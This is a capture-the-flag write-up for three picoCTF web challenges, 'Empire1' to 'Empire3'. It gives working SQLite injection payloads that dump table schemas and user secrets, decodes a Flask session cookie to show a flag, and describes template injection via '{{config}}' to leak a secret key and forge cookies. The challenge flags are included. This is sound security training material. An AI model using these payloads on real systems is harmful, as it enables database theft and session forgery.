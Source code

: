 # Empire1

Once you create an account, you can add a todo. After trying multiple payloads, you can see that the application is vulnerable to SQL injection.

First, let's list all tables:
```
'||(SELECT group_concat(tbl_name) FROM sqlite_master  WHERE type='table' and tbl_name NOT like 'sqlite_%')||'
```

Result:
```
user,todo
```

Then we can print sql query for `user` table:
```
'||(SELECT sql FROM sqlite_master  WHERE type='table' and tbl_name='user' )||'
```

Result:
```
CREATE TABLE user ( id INTEGER NOT NULL, username VARCHAR(64), name VARCHAR(128), password_hash VARCHAR(128), secret VARCHAR(128), admin INTEGER, PRIMARY KEY (id) )
```

Finally we can select users secrets:
```
'||(SELECT group_concat(secret) from user)||'
```

Result:
```
Likes Oreos.,Know it all.,picoCTF{wh00t_it_a_sql_injecta4dfbd62}
```

Flag: `picoCTF{wh00t_it_a_sql_injecta4dfbd62}`

# Empire2

To solve this challenge you need [flask session cookie decoder](https://github.com/noraj/flask-session-cookie-manager).

```
$ python3 flask_session_cookie_manager3.py decode -c '.eJwljzFuwzAMRe-i
OQNFyhKVtUBP0F2gRKo10taBbA9FkLtXRdcPvIf3H670YfuHux7jtIsrq7qr69SCt4RmLF4ptag5EjFBAsK4SENckuQeY5BWM5BnpRC5LuxDYw60KLRsWBlq0CUwgs-5kv6pU1VUIDUwQzSRgBoEjKEReWB0F9f20cux3ex79tQeV
Cpqq8YdwEdl9ll8pjC9VjtqojlPTmXcym5t2DHB-9q2l7fXx3rsRcqXlZ_tHKV_yjvkHLpIfE7m3G38Hyf3_AXMLFCO.XhSiCA.fmxajatcgwlv_iluy9z-i3UOaok'
b'{"_fresh":true,"_id":"f3c41e72ee8a1d37c6d9633830703265ac2257a9f664acb90318d3468b5814c88435d0c9e2b80b4d54820199b3df3c47bd2d03de0ee22eaa42d4a0e80c331082","csrf_token":"bf4dab2dcbe8f0016d8819a1934201ebf2d73016","dark_secret":"picoCTF{its_a_me_your_flag0994faa6}","user_id":"3"}'
```

Flag: `picoCTF{its_a_me_your_flag0994faa6}`

# Empire3

First, create `{{config}}` todo. Once you get `SECRET_KEY` you can forge any cookies you want.

[flask server](flask3.py)

Flag: `picoCTF{cookies_are_a_sometimes_food_a8b9006b}`